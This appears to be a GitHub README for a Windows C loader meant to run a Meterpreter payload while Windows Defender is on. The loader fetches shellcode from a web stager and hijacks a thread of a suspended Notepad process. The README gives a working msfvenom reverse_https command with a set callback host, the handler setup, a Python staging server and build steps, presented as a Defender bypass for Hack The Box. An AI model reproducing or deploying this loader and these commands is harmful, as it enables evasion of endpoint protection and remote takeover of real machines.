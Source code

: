 # 🎯 Meterpreter Payload exectuion

A lightweight Windows C application developed using **Visual Studio**. The purpose of this porject is to have a Meterpreter payload execute with Defender on. This approach will bypass defender but some of the functionalilties in a Meterpreter payload will still be flagged. The purpose of this was to use this on harder Hack The Box machines that may have defender enabled. This spolution is a output of MALDEV Academy, it has been a great course and helped me build this up to this point. 

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fecthes the shell code at runtime and will avoid some common signtures by not storing the shell code on disk.
- I then create a suspended process "Notepad.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time then call back with a Meterpreter payload on a different port. Steps below are for setup


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for you local machine that is hosting metasploit
```

2. Open Metasploit


 ```bash
# in a different terminal setup metaploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# in the same directory as the paylaod and a differnt terminal as Metasploit run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](image.png)


### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for you kali machine. Make sure the port used is the one hosting the python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target
![alt text](image-1.png)

- A callback then a Meterpreter shell
![alt text](image-2.png)
